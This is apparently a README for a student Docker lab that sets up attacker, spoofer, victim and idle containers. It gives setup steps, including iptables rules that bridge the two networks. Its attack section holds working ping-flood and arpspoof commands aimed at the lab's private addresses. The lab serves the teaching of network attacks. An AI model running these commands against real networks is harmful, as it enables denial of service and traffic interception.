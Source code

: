 # Authors
Aloysio Winter, Carlo Mantovani, Felipe Elsner

# Notes
This application was developed in Linux, but it should work for different operating systems.
However, the commands within this README were executed primarily within a Linux OS.

# Configuration
The pre-defined IPv4 configuration should work within most locations, but if necessary, the addresses can be changed under the **services** and **network** sections within the docker-compose.yml file, following the already estabilished subnet configuration:
- NW Containers
    - Idle
    - Victim
    - Spoofer
- NW2 Containers
    - Attacker

# Start
```
./run.sh 
```
- OR

```
sudo docker-compose run --build --rm attacker zsh

In a different terminal:

sudo iptables -I DOCKER-ISOLATION-STAGE-2 -o br0 -i br1 -j ACCEPT
sudo iptables -I DOCKER-ISOLATION-STAGE-2 -o br1 -i br0 -j ACCEPT
```
- Lastly, run the socket raw in the local machine, outside the containers:
```
sudo python3 receive.py
```


## Addendum
- Depending on the OS, docker compose might be used as: 
```
docker compose
```
- OR
```
docker-compose
```

# Attack 
## Ping Flooding

- Within the Attacker Container, flood the Victim (172.20.0.3) with ICMP packets:
```
sudo ping -f 172.20.0.3  
```
- This floods the br0 interface with ICMP packets
## ARP Spoofing

Within the Attacker Container:
```
ping 172.20.0.3

```
- Run Victim (172.20.0.3) Container:
```
sudo docker exec -it victim sh
```
- Ping Idle (172.20.0.2) in Victim Container:
```
ping 172.20.0.2
```
- Run Spoofer (172.20.0.4) Container:
```
sudo docker compose run --build --rm spoofer zsh
```
- In Spoofer container:
```
arpspoof -i eth0 -t 172.20.0.3 172.20.0.2
```
- This changes the Arp Cache in Victim (172.20.0.3) so that Idle (172.20.0.2) is associated with the Spoofer's MAC address.

# Clean Containers
```
./down.sh
```
- OR
```
sudo docker-compose down
```


